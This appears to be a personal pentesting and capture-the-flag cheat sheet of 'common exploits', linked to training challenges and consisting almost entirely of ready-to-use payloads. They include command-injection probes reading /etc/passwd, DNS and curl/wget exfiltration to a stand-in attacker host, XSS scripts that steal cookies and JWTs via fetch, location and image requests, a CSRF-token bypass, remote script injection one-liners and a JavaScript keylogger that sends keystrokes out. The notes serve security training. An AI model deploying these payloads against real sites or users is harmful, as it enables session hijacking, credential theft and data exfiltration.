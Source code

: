 # Common Exploits

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## Command Execution

<div class="row row-cols-lg-2"><div>

#### Command Execution — In-Band

[![powershell_command_injection](../../../../_badges/rootme/app_script/powershell_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection)
[![powershell_basic_jail](../../../../_badges/rootme/app_script/powershell_basic_jail.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Linux commands:

```shell!
$ pwd
$ whoami
$ whoami;id
$ whoami||id
$ cat /etc/passwd
```

Windows commands:

```shell!
PS> whoami
PS> $(whoami)
PS> $(Get-ChildItem Env:)
PS> $(command|Out-string) | powershell command
```
</div><div>

#### Command Execution — Out-Of-Band

Use DNS-exfiltration to extract the command output:

```shell!
$ nslookup `whoami`.domain.com
$ nslookup $(whoami).domain.com
```

Extracting files using HTTP:

```shell!
$ curl -F "key=@/etc/passwd" https://hacker.example.com
$ wget --post-file=/etc/passwd https://hacker.example.com
```

Redirect output to an exposed HTML file:

```shell!
$ cat /etc/passwd > /var/www/html/output.txt
```

Add a time delay:

```shell!
$ true && sleep 5
```
</div></div>

<hr class="sep-both">

## JavaScript

*Real examples of malicious code can be found at [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) <small>(💥?)</small>.*

<div class="row row-cols-lg-2"><div>

#### JavaScript — Fingerprint

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)

We sometimes need to check a few things:

* `document.domain`: current domain name
* `window.location`: current URL
* `window.origin`: when inside a IFRAME
* `"fieldname"`: to make sure which field is vulnerable

Often with `alert(...)` or `console.log(...)` or `print()` for `<iframe>`.

#### JavaScript — Steal Cookie

[![cross_site_scripting](../../../../_badges/htb/cross_site_scripting.svg)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_stored_1](../../../../_badges/rootme/web_client/xss_stored_1.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
[![xss_dom_based_introduction](../../../../_badges/rootme/web_client/xss_dom_based_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
[![xss_dom_based_filters_bypass](../../../../_badges/rootme/web_client/xss_dom_based_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
[![csp_bypass_nonce](../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
[![xss_reflected](../../../../_badges/rootme/web_client/xss_reflected.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
[![xss_dom_based](../../../../_badges/rootme/web_client/xss_dom_based.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)

Classic fetch cookie with/without space handling

```javascript!
fetch('https://hacker.example.com/?cookie=' + document.cookie)

fetch('https://hacker.example.com/?cookie=' + btoa(document.cookie))
```

Double nested fetch for Anti-CSRF Token bypass

```javascript!
fetch('https://hacker.example.com/admin/')
	.then(r=>r.text())
	.then(html => {
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const csrfToken = doc.querySelector('input[name="csrf"]')?.value;
        fetch('https://hacker.example.com/admin/enable', {
			'credentials': 'include',
			'headers': {
				'Content-Type': 'application/x-www-form-urlencoded',
			},
			"body": "username=jdoe&csrf="+csrfToken,
			"method": "POST",
			"mode": "cors"
		});
    })
```

Location-based (CORS bypass).

```javascript!
location="https://hacker.example.com/?cookie="+document.cookie
```

JWT exfiltration using location.

```javascript
fetch("/api/token", {
  "headers": {
    "accept": "*/*",
  },
  "mode": "no-cors",
  "body": null,
  "method": "GET",
  "credentials": "include"
}).then(r=>r.json()).then(r=>location.href='https://hacker.example.com/?' +r.apikey);
```

Fetch using alternate method

```javascript!
fetch('https://hacker.example.com', { method: 'POST', mode: 'no-cors', credentials: 'include', body: btoa(document.cookie) });
```
</div><div>

#### JavaScript — Fetch Using Images

Images may have been blocked but fetch may have not.

```javascript!
new Image().src = "https://hacker.example.com/?cookie="+btoa(document.cookie);
// image reuse (must have one)
document.images[0].src = "https://hacker.example.com/?cookie="+btoa(document.cookie)
// longer version
document.body.appendChild(Object.assign(document.createElement('img'), { src: "X"+btoa(document.cookie) }));
// alternative payload
let imageElement = document.createElement("img"); imageElement.src = "https://hacker.example.com/?cookie="+btoa(document.cookie); document.body.appendChild(imageElement);
```

#### JavaScript — Inject Script Tag

Inject a remote external JavaScript file, useful when length is limited or there is a need to bypass some protections.

```javascript!
document.write`<script src=//example.com>`

appendChild(createElement`script`).src='//example.com/x.js'

document.body.appendChild(document.createElement`script`).src='//example.com/x.js'

s=document.createElement('script');s.src='//example.com/x.js';document.body.appendChild(s);

(s=>document.body.appendChild(s))(document.createElement('script')).src='//example.com/x.js'

document.appendChild(Object.assign(document.createElement('script'),{src:'//example.com/x.js'}));
```

#### JavaScript — Submit Form

Mostly in CSRF context, submit a form.

```javascript!
document.forms[0].submit()
document.getElementById('my_form').submit()
```

#### JavaScript — Keylogger

Sends pressed keys to a malicious website. The code is using `btoa()` to encode in base64 the values.

```javascript!
let keys = ''
document.onkeydown = e => keys += e.key
setInterval(() => {
    if (keys === '') return
    fetch('https://example.com/keylogger?key=' + btoa(keys) )
    keys = ''
}, 1000)
```
</div></div>
